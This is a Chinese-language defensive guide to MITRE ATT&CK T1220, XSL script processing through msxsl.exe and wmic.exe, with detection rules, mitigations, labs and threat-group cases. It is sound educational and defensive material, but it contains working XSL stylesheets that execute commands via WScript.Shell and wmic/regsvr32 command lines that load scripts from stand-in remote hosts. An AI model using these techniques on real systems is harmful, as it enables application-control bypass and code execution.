

# XSL脚本处理 (T1220)

## 一句话通俗理解

攻击者像在正版书籍里夹带私货——把恶意脚本藏进一种叫"XSL样式表"的合法文件格式里，再叫Windows自带的工具去"读这本书"，让恶意代码借着微软签名工具的外衣偷偷跑起来。

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 利用Windows自带的msxsl.exe或wmic.exe工具，执行嵌入在XSL文件中的JScript/VBScript脚本 |
| 为什么危险？ | msxsl.exe与wmic.exe都是微软签名的合法程序，能绕过应用控制策略（如AppLocker），还能从远程URL直接加载脚本，实现"无文件"落地 |
| 谁需要关心？ | Windows系统管理员、SOC分析师、EDR研发人员、应用控制（AppLocker/WDAC）策略制定者 |
| 你的第一步防御 | 在AppLocker/WDAC策略中明确禁止msxsl.exe执行，并对wmic.exe的`/FORMAT`开关引用远程URL的行为进行告警 |
| 如果只做一件事 | 启用Sysmon Event ID 1监控msxsl.exe与wmic.exe的进程创建，重点关注命令行中是否包含`.xsl`或`http`关键字 |

## 难度等级

⭐⭐ 中级（需要基础的技术知识和实践）

XSL脚本处理属于中级隐蔽技术，原因在于：
- 攻击者需要理解XSL（Extensible Stylesheet Language）标准及其对嵌入式脚本的支持
- 需要熟悉msxsl.exe工具的调用方式或wmic.exe的`/FORMAT`开关用法
- 需要构造合法的XML/XSL文件结构以避免解析错误
- 防御方一旦了解这两个工具的滥用模式，检测规则相对容易落地

## 前置知识检查

**读这个文件需要什么？**

- [ ] XML基础语法（元素、属性、命名空间）
- [ ] XSL/XSLT样式表的基本概念与`<msxsl:script>`元素
- [ ] JScript/VBScript脚本语言基础
- [ ] Windows命令行工具调用方式（msxsl.exe、wmic.exe）
- [ ] 应用控制策略（AppLocker/WDAC）的工作原理
- [ ] Sysmon事件ID 1（进程创建）与ID 7（模块加载）的日志结构

## 技术描述

XSL脚本处理（T1220）是MITRE ATT&CK框架中**属于隐蔽（TA0005）战术**的技术。攻击者通过在XSL（Extensible Stylesheet Language，可扩展样式表语言）文件中嵌入JScript或VBScript脚本，再利用微软签名的合法工具（msxsl.exe或wmic.exe）执行这些脚本，从而绕过应用控制策略并掩盖恶意代码的真实执行路径。

**通俗解释：**

想象你每天下班都让同一位"信使"（微软签名的合法工具）帮你取一份"工作清单"（XSL文件）并按清单做事。这份清单表面看是普通的格式说明文件，但里面夹了一页"特殊指令"（嵌入的JScript/VBScript脚本）。信使照单全收，连那一页特殊指令也照做了——而门口的保安（应用控制策略）只检查"信使"的身份是否合法，根本不看他手里拿的是什么内容。攻击者就是这样把恶意代码伪装成"清单的一部分"，让合法工具替自己跑腿。

**过渡段：** 这项技术的精髓在于"借壳执行"——攻击者不需要落地一个独立的恶意可执行文件，而是利用系统已有的、被信任的二进制文件（Living-off-the-Land Binaries，LOLBins）去解释执行恶意脚本。微软签名的msxsl.exe与wmic.exe天然绕过基于签名白名单的应用控制策略；XSL文件本身是合法的XML文本，能避开对可执行文件类型的静态检测；远程URL引用则允许攻击者实现"无文件落地"的内存执行。下面我们看看攻击者具体怎么操作。

**技术原理：**

### 一、XSL标准对嵌入式脚本的支持

XSL（Extensible Stylesheet Language）是一组用于描述XML文档处理与渲染规则的语言族，其核心子集XSLT（XSL Transformations）用于将XML文档转换为其他格式。为了支持复杂运算，XSL标准通过`<msxsl:script>`元素（命名空间`urn:schemas-microsoft-com:xslt`）允许在样式表中嵌入.NET语言或JScript/VBScript脚本。这些脚本在XSLT转换过程中被调用执行。

```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:msxsl="urn:schemas-microsoft-com:xslt"
  xmlns:user="urn:my-scripts">

  <msxsl:script language="JScript" implements-prefix="user">
    function xml(nodelist) {
      var r = new ActiveXObject("WScript.Shell");
      r.Run("calc.exe");
      return nodelist.nextNode().xml;
    }
  </msxsl:script>

  <xsl:template match="/">
    <xsl:value-of select="user:xml(.)"/>
  </xsl:template>
</xsl:stylesheet>
```

上述示例中，`<msxsl:script>`块内的JScript代码在XSLT引擎处理样式表时被自动执行。`ActiveXObject("WScript.Shell")`允许脚本调用任意系统命令——这就是攻击者植入恶意逻辑的入口。

### 二、msxsl.exe：命令行转换工具的滥用

`msxsl.exe`是微软提供的命令行XSLT转换工具（[Microsoft下载中心](https://www.microsoft.com/en-us/download/details.aspx?id=21714)），用于将XML文件按XSL样式表转换为输出。它接收两个主要参数：
- XML源文件路径（或URL）
- XSL样式表文件路径（或URL）

由于XSL文件本身就是合法的XML，攻击者可以让XML与XSL指向**同一个文件**，从而简化投递。此外，由于msxsl.exe仅依据文件内容解析而非扩展名，攻击者可以为文件赋予任意扩展名（如`.jpeg`、`.txt`、`.dat`）以伪装其真实性质。

**典型命令行调用：**

```
msxsl.exe customers.xml script.xsl
msxsl.exe script.xsl script.xsl
msxsl.exe script.jpeg script.jpeg
```

**重要约束：** msxsl.exe默认不在Windows中安装，攻击者通常需要将其与投递的XSL文件一起打包投放。这一约束既是检测窗口（出现msxsl.exe本身就值得告警），也是攻击者的成本负担。

### 三、wmic.exe：Squiblytwo变体

更隐蔽的变体被称为"Squiblytwo"（与regsvr32的"Squiblydoo"技术T1218.010相对应），它利用Windows内置的`wmic.exe`（Windows Management Instrumentation命令行工具）配合`/FORMAT`开关调用远程或本地XSL文件。由于wmic.exe是Windows系统自带的、微软签名的核心工具，**无需额外投放任何二进制文件**，隐蔽性比msxsl.exe更强。

`wmic.exe`支持`/FORMAT`开关指定输出格式，预定义格式包括`htable`、`csv`、`xml`等。但wmic允许使用任意别名配合`/FORMAT`开关，并将格式路径替换为本地文件或远程URL。当格式文件被加载时，WMI引擎会解析其中的XSL内容并执行嵌入脚本。

**典型命令行调用：**

```
:: 本地文件
wmic process list /FORMAT:evil.xsl

:: 远程文件
wmic os get /FORMAT:"https://example.com/evil.xsl"
```

### 四、与T1218.010（Squiblydoo）的关系

Squiblytwo与Squiblydoo（regsvr32.exe调用远程SCT脚本）在概念上高度相似：两者都利用微软签名的LOLBin调用远程脚本内容以绕过应用控制。区别在于：
- **Squiblydoo**：`regsvr32.exe /s /u /i:https://example.com/evil.sct scrobj.dll`，调用COM脚本（SCT文件）
- **Squiblytwo**：`wmic os get /FORMAT:"https://example.com/evil.xsl"`，调用XSL脚本

两者在ATT&CK中分属不同技术（T1218.010 vs T1220），但攻击者常根据目标环境二选一。

**用途与影响：**

XSL脚本处理是APT组织在初始落地与防御绕过阶段常用技术。它的价值体现在三个层面：**应用控制绕过**（msxsl.exe/wmic.exe均为微软签名，默认被AppLocker等白名单策略放行）、**无文件落地**（通过URL引用远程XSL，恶意负载仅在内存中执行）、**检测难度**（合法工具调用+任意扩展名伪装+远程加载，三层混淆让传统静态检测失效）。Astaroth、Cobalt Group、Higaisa、Lazarus Group等知名威胁组织均使用过此技术。

## 真实攻击流程

### 典型攻击流程

```
侦察目标应用控制策略 --> 选择LOLBin（msxsl.exe或wmic.exe） --> 构造含脚本的XSL文件 --> 通过钓鱼/漏洞投递或远程URL引用 --> 合法工具加载XSL并执行嵌入脚本 --> 在签名进程上下文中执行恶意操作
```



**步骤详解：**

1. **侦察目标应用控制策略**
   - 通俗描述：攻击者像小偷踩点，先弄清楚目标门口"保安"的检查规则
   - 技术细节：通过初步执行（如宏代码）查询AppLocker策略、WDAC规则、EDR覆盖范围；判断msxsl.exe是否已安装或可投放；确认wmic.exe是否被禁用
   - 常用工具：PowerShell（`Get-AppLockerPolicy -Effective`）、Cobalt Strike内置侦察命令

2. **选择执行代理（LOLBin）**
   - 通俗描述：根据踩点结果决定用哪位"信使"送恶意清单
   - 技术细节：若目标允许msxsl.exe运行且攻击者能投放二进制，优先选msxsl.exe（功能更专一，行为更隐蔽）；若需纯LOLBin路径，选wmic.exe的Squiblytwo变体（无需投放，但命令行特征更明显）
   - 常用工具：msxsl.exe（需打包投递）、wmic.exe（系统自带）

3. **构造含脚本的XSL文件**
   - 通俗描述：把"特殊指令"藏进一份格式合法的样式表清单
   - 技术细节：编写符合XSL标准的样式表，在`<msxsl:script language="JScript">`块内植入通过`ActiveXObject`调用`WScript.Shell`、`Scripting.FileSystemObject`等COM对象的JScript代码；外层XML/XSL结构需合法以通过解析器校验
   - 常用工具：手工编写、Cobalt Strike的XSL Payload生成模块、Empire的Invoke-XSL脚本

4. **投递或远程引用XSL文件**
   - 通俗描述：要么把清单"快递"到目标门口（本地落地），要么让信使自己"远程取件"（URL引用）
   - 技术细节：
     - 本地落地：通过钓鱼邮件附件、漏洞利用后drop文件，可赋予`.jpeg`、`.txt`、`.dat`等任意扩展名以伪装
     - 远程引用：将XSL文件托管在攻击者控制的Web服务器（常配合CDN或合法云服务如GitHub、Pastebin以增加可信度），通过`wmic os get /FORMAT:"https://..."`直接加载
   - 常用工具：Cobalt Strike Host File、自定义HTTP服务器、Pastebin、GitHub Raw

5. **合法工具加载XSL并执行嵌入脚本**
   - 通俗描述：信使照单全收，连"特殊指令"也照做
   - 技术细节：msxsl.exe调用MSXML解析器处理XSLT，遇到`<msxsl:script>`块时通过`jscript.dll`/`vbscript.dll`执行脚本；wmic.exe通过WMI核心服务的XSL格式化路径同样触发脚本执行
   - 常用工具：msxsl.exe、wmic.exe（受害者系统自带）

6. **在签名进程上下文中执行恶意操作**
   - 通俗描述：恶意代码披着微软签名工具的外衣为所欲为
   - 技术细节：JScript通过`WScript.Shell.Run`执行任意命令、通过`XMLHTTP`下载后续payload、通过`ADODB.Stream`写文件、通过`WMI`订阅实现持久化；由于宿主进程是微软签名，AMSI（如果启用）与EDR可能仍可检测，但传统应用控制策略无效
   - 常用工具：Cobalt Strike Beacon、PowerShell Empire、自定义JScript后门

7. **下载真实payload与建立C2**
   - 通俗描述：站稳脚跟后，把"真家伙"请进来
   - 技术细节：通过XSL脚本下载Base64编码的DLL/EXE，反射加载到内存；或直接通过JScript调用`WinHttpRequest`建立C2通道
   - 常用工具：Cobalt Strike、自定义C2框架、Base64编码的DLL加载器

## 检测建议

**用人话说：** XSL脚本处理的检测核心是"盯住两个工具的异常调用模式"。msxsl.exe本身在大多数企业环境中就不该出现——一旦发现它运行就值得告警。wmic.exe虽然常用，但配合`/FORMAT`开关引用`.xsl`文件或`http`/`https` URL的模式极为罕见，几乎可以100%判定为恶意。再辅以jscript.dll/vbscript.dll模块被这两个进程加载的行为，形成多层检测。

### 网络层检测

**检测方法：** 监控出站HTTP/HTTPS流量中请求`.xsl`、`.xslt`文件或可疑XML文件的模式。重点关注：
- wmic.exe或msxsl.exe作为User-Agent（msxsl.exe默认UA为`Microsoft MSXSL 1.0`）的出站请求
- 请求路径包含`.xsl`、`.xslt`、`.xml`扩展名但来源不是已知合法更新服务
- 请求目标域名是新注册、信誉低或位于非典型地理位置

### 主机层检测

**Windows事件ID：**
- **Sysmon Event ID 1**：进程创建（**核心**——监控msxsl.exe与wmic.exe的命令行参数）
- **Sysmon Event ID 7**：Image Loaded（监控jscript.dll/vbscript.dll被msxsl.exe/wmic.exe加载）
- **Sysmon Event ID 22**：DNS查询（监控wmic.exe发起的DNS解析，常预示远程XSL加载）
- **Event ID 4688**：进程创建（安全审计，需启用命令行审计）
- **Event ID 4104**：PowerShell脚本块日志（攻击者常通过PowerShell调用msxsl.exe）

**具体命令示例：**
```powershell
# 检测msxsl.exe进程创建（出现即高度可疑）
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} |
    Where-Object { $_.Message -match 'msxsl\.exe' } |
    Select-Object TimeCreated, @{N='CommandLine';E={$_.Properties[10].Value}} -First 50

# 检测wmic.exe配合/FORMAT开关调用远程URL（Squiblytwo特征）
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} |
    Where-Object { $_.Message -match 'wmic\.exe' -and $_.Message -match '/FORMAT' -and $_.Message -match 'http' } |
    Select-Object TimeCreated, @{N='CommandLine';E={$_.Properties[10].Value}} -First 50

# 检测wmic.exe调用本地XSL文件
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} |
    Where-Object { $_.Message -match 'wmic\.exe' -and $_.Message -match '/FORMAT:' -and $_.Message -match '\.xsl' } |
    Select-Object TimeCreated, @{N='CommandLine';E={$_.Properties[10].Value}} -First 50

# 检测msxsl.exe/wmic.exe加载jscript.dll（脚本执行证据）
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=7} |
    Where-Object { $_.Message -match 'msxsl\.exe|wmic\.exe' -and $_.Message -match 'jscript\.dll|vbscript\.dll' } |
    Select-Object TimeCreated, @{N='Image';E={$_.Properties[4].Value}}, @{N='ImageLoaded';E={$_.Properties[5].Value}} -First 50
```

### 应用层检测

**检测要点：**

1. **msxsl.exe进程创建检测**
   - 日志来源：Sysmon Event ID 1、Windows Event ID 4688
   - 关注字段：Image（镜像路径）、CommandLine（命令行参数）、ParentImage（父进程）
   - 异常特征：msxsl.exe在企业环境出现本身即为异常；父进程为Office应用、PowerShell、cmd.exe、wscript.exe等高度可疑
   - 检测ID映射：**DET0205 / AN0581**

2. **wmic.exe /FORMAT开关异常调用检测**
   - 日志来源：Sysmon Event ID 1、Windows Event ID 4688
   - 关注字段：CommandLine（命令行参数）
   - 异常特征：`/FORMAT:`引用`.xsl`/`.xslt`扩展名文件、引用`http://`或`https://` URL、引用非系统目录文件
   - 检测ID映射：**DET0205 / AN0581**

3. **脚本引擎模块加载检测**
   - 日志来源：Sysmon Event ID 7
   - 关注字段：Image（加载方）、ImageLoaded（被加载模块）
   - 异常特征：msxsl.exe或wmic.exe加载`jscript.dll`、`vbscript.dll`、`scrobj.dll`
   - 检测ID映射：**DET0205 / AN0581**

4. **远程XSL加载网络行为检测**
   - 日志来源：Sysmon Event ID 22（DNS）、防火墙日志、代理日志
   - 关注字段：QueryName（DNS查询）、目的URL、User-Agent
   - 异常特征：wmic.exe或msxsl.exe发起DNS查询；HTTP请求路径包含`.xsl`；User-Agent为`Microsoft MSXSL`

## 检测规则示例

### Sigma规则：检测msxsl.exe进程创建

```yaml
title: 可疑msxsl.exe进程创建检测
id: a5b6c7d8-9e0f-1a2b-3c4d-5e6f7a8b9c0d
status: experimental
description: 检测msxsl.exe进程创建行为，msxsl.exe默认不在Windows系统中安装，企业环境出现即为可疑，可能表明T1220 XSL脚本处理攻击
references:
    - https://attack.mitre.org/techniques/T1220/
    - https://lolbas-project.github.io/lolbas/Other_MS_Binaries/Msxsl/
author: ATT&CK知识库
date: 2026/07/24
logsource:
    product: windows
    service: sysmon
detection:
    selection_image:
        EventID: 1
        Image|endswith: '\msxsl.exe'
    condition: selection_image
falsepositives:
    - 遗留的合法XSLT批处理脚本（建议白名单化已知合法用途）
    - 开发团队使用msxsl.exe进行XML转换测试
level: high
tags:
    - attack.t1220
    - attack.defense_evasion
    - attack.t0005
```

### Sigma规则：检测wmic.exe Squiblytwo变体（远程XSL加载）

```yaml
title: wmic.exe调用远程XSL脚本检测（Squiblytwo）
id: b7c8d9e0-f1a2-3b4c-5d6e-7f809192a3b4
status: experimental
description: 检测wmic.exe配合/FORMAT开关引用远程URL加载XSL脚本的行为，对应T1220 Squiblytwo变体，可绕过应用控制并在签名进程上下文执行JScript/VBScript
references:
    - https://attack.mitre.org/techniques/T1220/
    - https://lolbas-project.github.io/lolbas/Binaries/Wmic/
author: ATT&CK知识库
date: 2026/07/24
logsource:
    product: windows
    category: process_creation
detection:
    selection_wmic:
        Image|endswith: '\wmic.exe'
        CommandLine|contains|all:
            - '/FORMAT:'
            - 'http'
    condition: selection_wmic
falsepositives:
    - 极少有合法场景需要wmic.exe从URL加载格式文件（建议直接禁用）
level: critical
tags:
    - attack.t1220
    - attack.defense_evasion
    - attack.t0005
```

### Sigma规则：检测wmic.exe加载本地XSL文件

```yaml
title: wmic.exe调用本地XSL文件检测
id: c9d0e1f2-a3b4-5c6d-7e8f-909192a3b4c5
status: experimental
description: 检测wmic.exe配合/FORMAT开关引用本地.xsl文件的行为，可能为T1220 XSL脚本处理的本地落地变体
references:
    - https://attack.mitre.org/techniques/T1220/
author: ATT&CK知识库
date: 2026/07/24
logsource:
    product: windows
    category: process_creation
detection:
    selection_wmic_local:
        Image|endswith: '\wmic.exe'
        CommandLine|contains|all:
            - '/FORMAT:'
            - '.xsl'
    filter_known_formats:
        CommandLine|contains:
            - '/FORMAT:htable'
            - '/FORMAT:csv'
            - '/FORMAT:xml'
            - '/FORMAT:list'
            - '/FORMAT:table'
    condition: selection_wmic_local and not filter_known_formats
falsepositives:
    - 自定义WMI输出格式的合法运维脚本（建议白名单化）
level: high
tags:
    - attack.t1220
    - attack.defense_evasion
    - attack.t0005
```

### Sigma规则：检测msxsl.exe/wmic.exe加载脚本引擎模块

```yaml
title: msxsl.exe或wmic.exe加载脚本引擎模块检测
id: d1e2f3a4-b5c6-7d8e-9f01-112233445566
status: experimental
description: 检测msxsl.exe或wmic.exe加载jscript.dll或vbscript.dll模块的行为，表明XSL文件中的嵌入式脚本正在被执行，对应T1220技术核心环节
references:
    - https://attack.mitre.org/techniques/T1220/
    - https://attack.mitre.org/detectionstrategies/DET0205/
author: ATT&CK知识库
date: 2026/07/24
logsource:
    product: windows
    service: sysmon
detection:
    selection_image:
        EventID: 7
        Image|endswith:
            - '\msxsl.exe'
            - '\wmic.exe'
    selection_loaded:
        ImageLoaded|endswith:
            - '\jscript.dll'
            - '\vbscript.dll'
    condition: selection_image and selection_loaded
falsepositives:
    - 极少；wmic.exe在格式化某些复杂输出时可能加载脚本引擎，但极为罕见
level: high
tags:
    - attack.t1220
    - attack.defense_evasion
    - attack.t0005
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 在应用控制策略中明确禁止msxsl.exe执行

**具体实施步骤：**
1. 在AppLocker或WDAC（Windows Defender Application Control）策略中将`msxsl.exe`加入显式拒绝规则
2. 若无法完全禁用，限制msxsl.exe仅能由特定签名发布者执行，并要求命令行参数审计
3. 通过组策略将msxsl.exe加入"不允许执行的默认规则"扩展列表
4. 部署文件完整性监控（FIM），告警任何msxsl.exe二进制文件出现在系统中的事件

**对应MITRE缓解措施：** M1038（执行防护）

### 优先级2：重要措施

**措施名称：** 加固wmic.exe使用与监控`/FORMAT`开关

**具体实施步骤：**
1. 通过组策略启用"审计模式"先观察wmic.exe的`/FORMAT`开关使用频率，建立基线
2. 在EDR中配置规则：wmic.exe命令行包含`/FORMAT:`与`http`/`https`时直接阻断并告警
3. 在EDR中配置规则：wmic.exe命令行包含`/FORMAT:`与`.xsl`/`.xslt`扩展名时告警（除已知合法格式外）
4. 在Windows 10 1809+与Windows Server 2019+上考虑启用"WMIC弃用"组策略（微软已宣布wmic将在未来版本移除）

### 优先级3：建议措施

**措施名称：** 启用AMSI集成与脚本签名验证

**具体实施步骤：**
1. 确保AMSI（反恶意软件扫描接口）在所有Windows 10/11与Server 2016+上启用，让JScript/VBScript在执行前被安全产品扫描
2. 通过组策略要求所有XSL文件必须由受信任发布者签名（`HKLM\SOFTWARE\Microsoft\MSXML\DOMDocument\nProhibitDTD`等注册表项）
3. 配置Office应用的宏设置与受保护视图，防止钓鱼文档通过宏调用msxsl.exe/wmic.exe
4. 在网络层（防火墙、代理）阻断企业内部主机对非标准Web服务的`.xsl`/`.xslt`文件请求
5. 禁用或限制PowerShell的`Invoke-WebRequest`等命令从互联网下载XSL文件

### MITRE ATT&CK 缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M1038 | 执行防护 | 适用 | 通过AppLocker/WDAC禁止msxsl.exe执行，并对wmic.exe的`/FORMAT`开关异常调用进行阻断 |

> **说明：** MITRE官方仅将M1038（执行防护）列为T1220的缓解措施。其他防护建议（AMSI、网络层过滤、文件完整性监控）来自社区实践与本知识库扩展。

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。XSL脚本可执行任意代码，请确保实验环境与生产网络完全隔离。

### 实验环境准备

**所需工具：**
- Windows 10/11虚拟机（启用Sysmon日志与PowerShell脚本块日志）
- msxsl.exe（从[Microsoft下载中心](https://www.microsoft.com/en-us/download/details.aspx?id=21714)获取，仅用于实验）
- 文本编辑器（VS Code / Notepad++）
- Sysinternals Process Monitor（可选，用于行为观察）

### 实验1：msxsl.exe执行嵌入JScript的XSL文件（初级）

**实验目标：** 理解T1220 XSL脚本处理的基本原理，观察msxsl.exe如何执行XSL文件中嵌入的JScript代码

**实验步骤：**
1. 创建一个测试XML文件`customers.xml`：
   ```xml
   <?xml version="1.0"?>
   <customers>
     <customer>
       <name>Test Customer</name>
     </customer>
   </customers>
   ```
2. 创建一个含JScript的XSL文件`script.xsl`：
   ```xml
   <?xml version="1.0"?>
   <xsl:stylesheet version="1.0"
     xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
     xmlns:msxsl="urn:schemas-microsoft-com:xslt"
     xmlns:user="urn:my-scripts">
     <msxsl:script language="JScript" implements-prefix="user">
       function execute() {
         var shell = new ActiveXObject("WScript.Shell");
         shell.Run("calc.exe");
         return "done";
       }
     </msxsl:script>
     <xsl:template match="/">
       <xsl:value-of select="user:execute()"/>
     </xsl:template>
   </xsl:stylesheet>
   ```
3. 执行命令：
   ```
   msxsl.exe customers.xml script.xsl
   ```
4. 观察calc.exe是否弹出（证明JScript被执行）
5. 检查Sysmon Event ID 1（msxsl.exe进程创建）与Event ID 7（jscript.dll模块加载）日志
6. 清理：删除测试文件

**预期结果：** calc.exe弹出，Sysmon日志记录msxsl.exe进程创建与jscript.dll模块加载

**学习要点：** 理解`<msxsl:script>`元素如何被XSLT引擎解析执行，以及为什么这种"合法"机制会被攻击者滥用

### 实验2：wmic.exe Squiblytwo变体执行远程XSL（中级）

**实验目标：** 理解Squiblytwo变体，掌握wmic.exe配合`/FORMAT`开关加载XSL脚本的方法

**实验步骤：**
1. 在实验环境中搭建一个简单HTTP服务器（如Python）：
   ```bash
   python -m http.server 8000
   ```
2. 在HTTP服务器根目录放置`evil.xsl`文件（内容同实验1的`script.xsl`）
3. 执行命令（注意需将`localhost`替换为实际服务器地址）：
   ```
   wmic os get /FORMAT:"http://localhost:8000/evil.xsl"
   ```
4. 观察calc.exe是否弹出
5. 检查Sysmon Event ID 1（wmic.exe命令行包含`/FORMAT`与`http`）、Event ID 7（wmic.exe加载jscript.dll）、Event ID 22（wmic.exe发起DNS查询）日志
6. 清理：关闭HTTP服务器，删除测试文件

**预期结果：** calc.exe弹出，Sysmon日志记录wmic.exe进程创建、DNS查询与jscript.dll模块加载

**学习要点：** 理解wmic.exe的`/FORMAT`开关如何被滥用，以及"无文件落地"的远程XSL加载如何规避文件系统检测

### 实验3：伪装扩展名检测（中级）

**实验目标：** 验证msxsl.exe不依赖文件扩展名的特性，掌握检测任意扩展名XSL文件的方法

**实验步骤：**
1. 将实验1的`script.xsl`重命名为`script.jpeg`
2. 执行命令：
   ```
   msxsl.exe script.jpeg script.jpeg
   ```
3. 观察calc.exe是否仍然弹出（验证msxsl.exe仅依据文件内容解析）
4. 检查Sysmon Event ID 1日志中命令行参数是否包含`.jpeg`扩展名
5. 在Sigma规则中扩展检测：msxsl.exe命令行包含任意非`.xml`/`.xsl`扩展名即告警

**预期结果：** calc.exe仍弹出，证明扩展名伪装有效；检测规则需关注工具调用本身而非文件类型

**学习要点：** 理解为什么基于文件扩展名的检测对XSL脚本处理无效，检测必须基于工具行为而非文件类型

## 真实案例

### 案例1：Astaroth恶意软件滥用wmic.exe加载远程XSL（2017-2019）

- **时间**：2017年-2019年
- **目标**：巴西与拉美地区的政府机构、金融机构、企业用户
- **攻击组织**：Astaroth运营者（信息窃取恶意软件即服务）
- **手法**：Astaroth通过钓鱼邮件投递恶意LNK文件，受害者点击后触发一系列LOLBin链式调用。其中关键一环是使用`wmic.exe`配合`/FORMAT`开关加载托管在远程域名上的XSL文件。该XSL文件内嵌JScript/VBScript脚本，在wmic.exe（微软签名）的进程上下文中执行，下载并加载后续payload（包括keylogger模块与凭证窃取模块）。由于wmic.exe是系统自带工具，攻击者实现了真正的"无文件落地"。
- **影响**：数万台机器被感染，大量银行凭证与个人数据被窃取
- **参考链接**：[MITRE - Astaroth (S0373)](https://attack.mitre.org/software/S0373/)、[Cybereason - Astaroth Analysis](https://www.cybereason.com/blog/information-stealing-malware-targeting-brazil-full-research)

### 案例2：Cobalt Group利用msxsl.exe绕过AppLocker（2018）

- **时间**：2018年7月
- **目标**：东欧与中亚的金融机构、政府机构
- **攻击组织**：Cobalt Group（G0080）
- **手法**：Cobalt Group在针对金融机构的钓鱼攻击中，利用msxsl.exe绕过目标环境部署的AppLocker应用控制策略。攻击者将含JScript的XSL文件作为钓鱼附件投递，并通过宏代码触发`msxsl.exe script.xsl script.xsl`命令。由于msxsl.exe是微软签名的合法工具，默认被AppLocker放行；嵌入的JScript通过`WScript.Shell`调用PowerShell下载并执行Cobalt Strike Beacon，建立长期C2通道。
- **影响**：多家金融机构内网被渗透，部分ATM被远程控制
- **参考链接**：[MITRE - Cobalt Group (G0080)](https://attack.mitre.org/groups/G0080/)、[Talos - Multiple Cobalt Personality Disorder](https://blog.talosintelligence.com/2018/07/multiple-cobalt-personality-disorder.html)

### 案例3：Higaisa组织利用XSL文件投递VBScript（2020）

- **时间**：2020年初
- **目标**：韩国与东北亚地区的政府机构、智库、企业
- **攻击组织**：Higaisa（G0126）
- **手法**：Higaisa以COVID-19相关主题为诱饵，向目标发送含恶意快捷方式的钓鱼邮件。受害者点击后，恶意脚本调用msxsl.exe加载一个XSL文件，XSL内嵌的VBScript代码在执行时下载并运行第二阶段payload。攻击者特别利用了XSL文件可赋予任意扩展名的特性，将文件命名为`.txt`以伪装成普通文本文件，规避了部分基于扩展名的文件过滤策略。
- **影响**：多个目标被初步渗透，攻击者获取了敏感文档与凭证
- **参考链接**：[MITRE - Higaisa (G0126)](https://attack.mitre.org/groups/G0126/)、[Positive Technologies - Higaisa Investigation](https://www.ptsecurity.com/ww-en/analytics/pt-esc-threat-intelligence/covid-19-and-new-year-greetings-the-higaisa-group/)

### 案例4：Lazarus集团Operation Dream Job利用远程XSL下载DLL（2020）

- **时间**：2020年6月
- **目标**：欧洲航空航天与军事公司
- **攻击组织**：Lazarus Group（G0032）
- **手法**：在Operation Dream Job行动中，Lazarus集团伪装成招聘人员向航空航天与军事公司员工发送含恶意文档的钓鱼邮件。文档中的宏代码触发一个利用msxsl.exe调用远程XSL脚本的命令链。远程XSL脚本在内存中执行JScript，通过`XMLHTTP`下载一个Base64编码的自定义DLL下载器，并反射加载到msxsl.exe进程内存中，实现完整的无文件持久化。由于整个执行链都使用微软签名工具，传统EDR难以在初始阶段拦截。
- **影响**：多家欧洲防务承包商的内部网络被渗透，敏感技术资料面临泄露风险
- **参考链接**：[MITRE - Operation Dream Job (C0022)](https://attack.mitre.org/campaigns/C0022/)、[ESET - Operation In(ter)ception](https://www.welivesecurity.com/wp-content/uploads/2020/06/ESET_Operation_Interception.pdf)

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| XSL | Extensible Stylesheet Language | 可扩展样式表语言，用于描述XML文档的处理与渲染规则 |
| XSLT | XSL Transformations | XSL的核心子集，用于将XML文档转换为其他格式 |
| msxsl:script | msxsl:script Element | XSL标准中允许嵌入JScript/VBScript脚本的元素 |
| msxsl.exe | Microsoft Command Line Transformation Utility | 微软提供的命令行XSLT转换工具，非系统自带 |
| wmic.exe | Windows Management Instrumentation Command-line | Windows管理规范命令行工具，系统自带 |
| Squiblytwo | Squiblytwo | 利用wmic.exe /FORMAT调用XSL脚本的攻击技术，对应Squiblydoo（regsvr32） |
| Squiblydoo | Squiblydoo | 利用regsvr32.exe调用远程SCT脚本的攻击技术（T1218.010） |
| LOLBin | Living-off-the-Land Binary | 系统自带的合法二进制文件，被攻击者滥用以执行恶意操作 |
| AppLocker | Application Locker | Windows的应用控制策略，可限制可执行文件、脚本、安装包的运行 |
| WDAC | Windows Defender Application Control | Windows Defender应用控制，基于代码签名的更强应用控制方案 |
| AMSI | Anti-Malware Scan Interface | 反恶意软件扫描接口，允许安全产品扫描脚本内容 |
| ActiveXObject | ActiveX Object | JScript/VBScript中用于实例化COM对象的机制，可调用WScript.Shell等 |
| JScript | JScript | 微软实现的ECMAScript方言，可在XSL脚本中执行 |

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - T1220 XSL Script Processing](https://attack.mitre.org/techniques/T1220/)
- [MITRE ATT&CK - TA0005 Stealth](https://attack.mitre.org/tactics/TA0005/)
- [MITRE ATT&CK - DET0205 Detect XSL Script Abuse via msxsl and wmic](https://attack.mitre.org/detectionstrategies/DET0205/)
